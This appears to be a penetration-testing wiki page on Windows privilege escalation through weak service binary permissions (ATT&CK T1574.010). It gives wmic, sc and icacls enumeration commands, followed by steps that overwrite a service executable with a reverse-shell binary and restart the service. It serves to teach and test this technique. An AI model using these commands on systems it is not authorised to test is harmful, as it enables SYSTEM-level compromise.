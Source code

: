 ```yaml
---
description: >-
  MITRE ATT&CK™ Hijack Execution Flow - Services File Permissions Weakness -
  Technique T1574.010
---
```


# Weak File Permissions

## Theory

It is very often in Windows environments to discover services that run with SYSTEM privileges. If you have write permissions over the folder or binary used by the service you can use it to escalate you privileges.

## Practice

If we have enough permissions over the binary of a service, we can replace it to our own binary. If you have write permissions over the folder you can do [DLL Hijacking](weak-files-permissions.md)

{% tabs %}
{% tab title="Enumerate" %}
We can get every binary that is executed by a service using wmic and check your permissions using icacls

```powershell
for /f "tokens=2 delims='='" %a in ('wmic service list full^|find /i "pathname"^|find /i /v "system32"') do @echo %a >> %temp%\perm.txt

for /f eol^=^"^ delims^=^" %a in (%temp%\perm.txt) do cmd.exe /c icacls "%a" 2>nul | findstr "(M) (F) :\"
```

Or we can use `sc` and `icacls`

```powershell
#Get list of services
sc query state= all | findstr "SERVICE_NAME:" >> C:\Temp\Servicenames.txt

#Get each permissions over BINARY_PATH_NAME 
FOR /F "tokens=2 delims= " %i in (C:\Temp\Servicenames.txt) DO @echo %i >> C:\Temp\services.txt
FOR /F %i in (C:\Temp\services.txt) DO @sc qc %i | findstr "BINARY_PATH_NAME" >> C:\Temp\path.txt
```

Or we can use the `servicesinfo` module of [WinPeas](https://github.com/carlospolop/PEASS-ng/tree/master/winPEAS)

```powershell
winPEASx64.exe servicesinfo
```
{% endtab %}

{% tab title="Exploit" %}
We just have to replace the binary.

```powershell
copy /y c:\Temp\reverse.exe "c:\Program Files\File Permissions Service\filepermservice.exe"
```

And then, restart the service

```powershell
#Using wmic
wmic service <Service_Name> call stopservice
wmic service <Service_Name> call startservice

#Using net
net stop <Service_Name> && net start <Service_Name>

#Using sc.exe
sc stop <Service_Name>
sc start <Service_Name>
```
{% endtab %}
{% endtabs %}

## Resources

{% embed url="https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Windows%20-%20Privilege%20Escalation.md#eop---incorrect-permissions-in-services" %}
